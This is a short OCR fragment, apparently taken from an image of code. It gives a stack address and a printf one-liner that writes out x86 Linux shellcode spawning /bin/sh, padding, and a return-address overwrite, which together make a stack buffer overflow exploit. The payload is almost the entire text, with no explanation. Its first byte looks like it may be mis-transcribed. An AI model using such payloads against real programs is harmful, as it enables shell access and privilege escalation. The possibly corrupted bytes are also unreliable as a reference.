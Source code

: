 start of stack: 0xbffff478

$(printf "\\x41\\x1a\\x5e\\x31\\xc0\\x88\\x46\\x07\\x8d\\x1e\\x89\\x5e\\x08\\x89\\x46\\x0c\\xb0\\x0b\\x89\\xf3\\x8d\\x4e\\x08\\x8d\\x56\\x0c\\xcd\\x80\\xe8\\xe1\\xff\\xff\\xff\\x2f\\x62\\x69\\x6e\\x2f\\x73\\x68%0472x\\x78\\xf4\\xff\\xbf")
